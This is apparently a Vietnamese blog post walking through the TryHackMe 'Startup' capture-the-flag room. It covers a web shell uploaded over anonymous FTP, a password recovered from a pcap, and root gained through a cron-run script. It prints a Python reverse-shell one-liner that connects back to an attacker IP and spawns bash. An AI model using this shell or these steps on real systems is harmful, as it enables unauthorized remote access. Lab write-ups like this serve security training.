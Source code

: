 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Startup"
date: "2021-10-15"
tags: [
    "tryhackme",
    "web",
    "linux",
    "ftp",
    "ssh",
    "cron",
    "wireshark"
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/THM-Startup/intro.png?stayle=centerme)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - Startup](https://tryhackme.com/room/startup). Géc gô!!!

Vẫn như thông thường thôi, việc đầu tiên cần làm là quét cổng. 

![scan-port](/assets/img/THM-Startup/scan-port.png?stayle=centerme)

Chúng ta có 3 port đang mở:
-   port 21 với ftp server và cho phép login bằng anonymous.
-   port 22 chạy ssh trên ubuntu server
-   port 80 với Apache httpd 2.4.18 trên ubuntu server

Với port 21, tôi có vài thứ hay ho ở đây.

![port21](/assets/img/THM-Startup/port21.png?stayle=centerme)

Trong ftp server tôi có 1 file txt và 1 file ảnh, user anonymous cũng có quyền sửa, ghi file. Vậy là tôi có thể upload file lên ftp server, tôi không chắc. Xem qua 2 file kia đã.

![notice](/assets/img/THM-Startup/notice.png?stayle=centerme)

Tôi có 1 cái tên ở đây: __Maya__. Còn chiếc ảnh kia thì không có gì đặc biệt lắm. Tôi sẽ quay lại ftp server để put shell lên xem có được không. 

![put-shell](/assets/img/THM-Startup/put-shell.png?stayle=centerme)

Được rồi. Bây giờ thử check web path để xem có tìm được url của file vừa up không.

![dirsearch](/assets/img/THM-Startup/dirsearch.png?stayle=centerme)

Vào path /files và tôi tìm thấy ftp file server. 

![shell](/assets/img/THM-Startup/shell.png?stayle=centerme)

Tạo listener với port đã cấu hình bên trong shell và thử mở file.

![get-shell](/assets/img/THM-Startup/get-shell.png?stayle=centerme)

Ồ được rồi này. Config lại shell 1 chút với python để dễ khai thác hơn. Trong file server web chúng ta có 1 file recipe.txt. Mở file này và tôi tìm được *secret spicy soup recipe*.

Vào thư mục /home và tôi có user *lennie*. Tuy nhiên không cần có password. Tôi thử check xem có thư mục nào chạy quyền của www-data không. Và tôi tìm thấy thư mục __incidents__.

![incidents](/assets/img/THM-Startup/incidents.png?stayle=centerme)

Trong này có 1 file pcap, clone nó về và thử check bằng Wireshark xem có tìm được gì đặc biệt không, biết đâu lại có password của Lennie. Tôi tạo http server bằng python trên máy remote và wget file pcap về máy local của mình, đáp nó vào Wireshark thôi.

Sau 1 thời gian dài ngụp lặn, tôi đã tìm được password của user lennie, trong file pcap. 

![lennie-password](/assets/img/THM-Startup/lennie-pass.png?stayle=centerme)

Đăng nhập và tôi có user flag.

![user-flag](/assets/img/THM-Startup/user-flag.png?stayle=centerme)

Việc tiếp theo là leo thang đặc quyền. Cùng với user flag tôi có thêm 2 folder nữa và folder __scripts__ có chứa file thực thi. Tôi sẽ khai thác nó trước. File __planner.sh__ sẽ ghi đề 1 list vào file __startup_list.txt__ và sau đó thực thi file __/etc/print.sh__. Tôi check qua file __print.sh__ thì nó đang chạy dưới quyền user lennie, điều này có nghĩa là chúng ta có thể sửa được file này.

Tôi sẽ thêm reverse shell vào file này, nhưng không thể get root được. Do file planner.sh này có thể chạy được nên tôi sẽ thử kiểm tra xem nó có phải 1 cronjob chạy dưới quyền root hay không. Và đúng là như vậy.

Nên việc tiếp theo là sửa file này để gọi reverse shell. Tôi sẽ dùng shell này

```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.**.**",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'```

À trước tiên phải tạo listener đã. 

![reverse-shell](/assets/img/THM-Startup/reverse-shell.png?stayle=centerme)

![rooted](/assets/img/THM-Startup/rooted.png?stayle=centerme)

Vậy là xong. Rooted!







